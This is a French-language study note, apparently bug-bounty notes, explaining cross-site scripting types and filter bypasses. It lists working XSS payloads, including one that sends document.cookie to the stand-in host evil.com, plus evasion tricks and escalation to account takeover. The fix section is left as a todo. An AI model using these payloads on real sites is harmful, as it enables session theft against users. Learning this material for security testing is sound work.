 # XSS (Cross Site Scripting)
## Qu'est ce qu'une XSS

C'est le fait de pouvoir injecter un script que ça soit en JS, HTML, Flash, VBScript ou tout autre langage susceptible d'être exécuté par le navigateur. 

Nous injectons notre code, si l'ordinateur comprends ce que l'on a donné un input et qu'il l'exécute, alors la XSS est confirmée. 

## Types de XSS

### Stored (Stockée)

Les **XSS** de type stockées, sont des injections de scripts qui sont enregistrés en serveur, et appelées de manière non ou mal sécurisée. 

Il s'agit de la XSS la plus critique car elle touche un plus grand nombre d'utilisateur à contrario des autres types de XSS. 

### Blind XSS

Les XSS de type blind sont des XSS de type Stockée, mais qui est exécutée sur un autre endroit du serveur.

Par exemple, on envoie un mail à l'admin via un formulaire de contact, l'admin ouvre sur l'interface d'administration et se prends la XSS.

Elle est souvent utilisée pour de l'**Account Takeover** et de l'**Exfiltration de données** d'administrateurs, mais elle en reste la plus compliquée pour être détectée car aucun élément visuel nous permet de voir que l'injection à été fonctionnelle.

### Reflected XSS

La Reflected envoie le code malicieux au serveur, qui exécute le script et retourne aussitôt le résultat sans pour autant la stocker. 

Exemple, si nous faisons une recherche dans un site pour un produit, et que dans l'url nous avons le résultat de notre recherche, alors nous pouvons tenter une XSS:

>*"https://mon-url/products/search?q=<script>alert(1)</script>"

Si l'injection fonctionne, alors on l'envoie à un utilisateur et il déclenchera l'injection.

### DOM XSS

La Dom XSS est à peu près similaire à la Reflected, à la différence que l'injection n'appelle pas le serveur, mais est executée directement sur la copie locale du client. 

La Dom XSS est due au rendu de l'input utilisateur sur le client de manière non sécurisée.

Cependant attention, car **TOUT** ne se passe pas forcément sur un paramètre d'url.

### Self XSS

La self XSS est une XSS qui nécessite l'interaction utilisateur et donc, agit comme un "phishing", et donc est globalement exclue des programmes de BB.

## Bypass de filtre

Pour bypass les filtres:
- essayer de fermer l'input :   '<img src="**"/><script>alert(1)</script></img>**'
- essayer d'utiliser directement des commandes js: '<img src="**\javascript:alert(1)"**></img>'
- essayer de jouer avec les fonctions d'appel js : '<img src="**123" onerror="alert(1)"**>'
- encoder avec le datafilter : "data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
- Capitaliser : "<scRiPT>location='http://evil.com/c='+document.cookie;</scRiPT>"
- Si quote et double quote filtrées, utiliser String.fromCharCode pour forger sa string
- Contourner la logique des filtres : "<scrip<script>t>alert(1)</scrip</script>t>"
### Escalade de la vulnérabilité

Avec les XSS, on peut évoluer sa criticité en passant d'une xss simple à un Account Takeover en volant par exemple les creds d'un admin.

On peut aussi effectuer une IDOR en volant l'id d'un compte et tenter d'accéder à des données qui ne nous appartiennent pas.

Ou bien même également RCE si on exécute les scripts avec les droits d'administrateur.

Et voir aussi compromettre l'intégrité totale du site en fonction des droits des utilisateurs.

---

*Todo: Correctifs associés à cette Vulnérabilité*
